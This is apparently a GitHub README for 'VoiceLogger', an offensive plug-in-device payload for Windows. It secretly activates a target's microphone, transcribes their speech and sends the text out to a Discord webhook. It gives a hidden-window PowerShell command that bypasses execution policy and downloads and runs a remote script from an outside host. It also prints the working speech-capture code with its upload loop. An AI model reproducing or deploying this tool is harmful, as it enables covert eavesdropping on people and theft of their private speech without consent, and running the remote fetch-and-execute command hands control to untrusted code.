

# VoiceLogger

## Description

This payload activates your target's microphone, converts their speech to text, and exfils it to Discord 
with the optional functionality of incorporating voice activated payloads.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$db` is the variable that stores your Discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='';irm jakoby.lol/voiceLogger | iex
```

### The Function

- The voiceLogger function leverages the System.Speech namespace to create a continuous speech-to-text logger. 
- It initializes a speech recognition engine, loads a dictation grammar, and sets the input to the default audio device. 
- The script then enters an infinite loop where it listens for speech input and recognizes the text. 
- The recognized text is written to the output and saved to a temporary log file. 
- The log file content is then uploaded using the DC-Upload function. 
- Additionally, the script checks for specific voice commands using a switch statement with regex patterns: if the word "notepad" is detected, it launches Notepad, 
- and if the word "exit" is detected, it breaks the loop and stops the voice logger. 
- Once the loop is terminated, the log file's content is cleared.

```powershell
function voiceLogger {

    Add-Type -AssemblyName System.Speech
    $recognizer = New-Object System.Speech.Recognition.SpeechRecognitionEngine
    $grammar = New-Object System.Speech.Recognition.DictationGrammar
    $recognizer.LoadGrammar($grammar)
    $recognizer.SetInputToDefaultAudioDevice()

    while ($true) {
        $result = $recognizer.Recognize()
        if ($result) {
            $results = $result.Text
            Write-Output $results
            $log = "$env:tmp/VoiceLog.txt"
            echo $results > $log
            $text = get-content $log -raw
            DC-Upload $text

            # Use a switch statement with the $results variable
            switch -regex ($results) {
                '\bnotepad\b' {saps notepad}
                '\bexit\b' {exit}
            }
        }
    }
    Clear-Content -Path $log
}
```



<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributor's names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>
